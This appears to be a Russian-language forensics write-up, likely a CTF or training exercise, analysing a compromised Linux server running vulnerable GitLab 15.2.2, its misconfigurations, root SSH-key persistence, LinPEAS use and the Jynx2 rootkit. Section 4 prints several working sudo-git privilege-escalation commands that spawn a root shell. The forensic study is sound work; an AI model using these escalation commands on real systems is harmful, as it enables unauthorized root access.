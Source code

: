 # Linux Forensics

### 1. Какой сервис на данном сервере уязвим? Какая версия?

GitLab, 15.2.2

### 2. Какой тип уязвимости использовал злоумышленник?

Remote Code Execution (RCE) (CVE - CVE-2022-2992)

### 3. Какие ошибки были допущены при конфигурации сервера?

В конфигурации сервера были найдены множественные недочеты, такие как:

    разрешение логина суперпользователю по SSH
    на сайте возможна произвольная иньекция IP-адреса, ведь конфигурация не откидывает X-Forwarded-For;
    доступ к службам без пароля в nginx.conf
    намеренная установка старой версии GitLab
    выдача git sudo без пароля для того “чтобы мои раннеры хорошо работали”

### 4. Как злоумышленник повысил привилегии?

Нами было найдено разрешение пользователю git на запуск команды /usr/bin/git с sudo без запроса пароля.

Таким образом, можно повысить привилегии:

```shell
    a)
    sudo PAGER='sh -c "exec sh 0&lt;&amp;1"' git -p help

    b)

    sudo git -p help config
    !/bin/sh

  c)

    sudo git branch --help config
    !/bin/sh


d)
    TF=$(mktemp -d)
    git init "$TF"
    echo 'exec /bin/sh 0&lt;&amp;2 1&gt;&amp;2' &gt;"$TF/.git/hooks/pre-commit.sample"
    mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
    sudo git -C "$TF" commit --allow-empty -m x

    TF=$(mktemp -d)
    ln -s /bin/sh "$TF/git-x"
    sudo git "--exec-path=$TF" x
```


### 5. Как злоумышленник получил доступ к серверу на постоянной основе?

Злоумышленник прописал свой SSH-ключ в authorized_keys пользователя root.

### 6. Как злоумышленник просканировал систему?

Подразумевая, что под этим подразумевается поиск уязвимостей в системе автоматическим путем, мы нашли следы очистки программного комплекса LinPEAS на машине, который и использовался для сканирования системы.

### 7. С помощью какого ВПО злоумышленник закрепился на сервере?

Злоумышленник закрепился с помощью руткита [https://github.com/chokepoint/Jynx2](https://github.com/chokepoint/Jynx2)


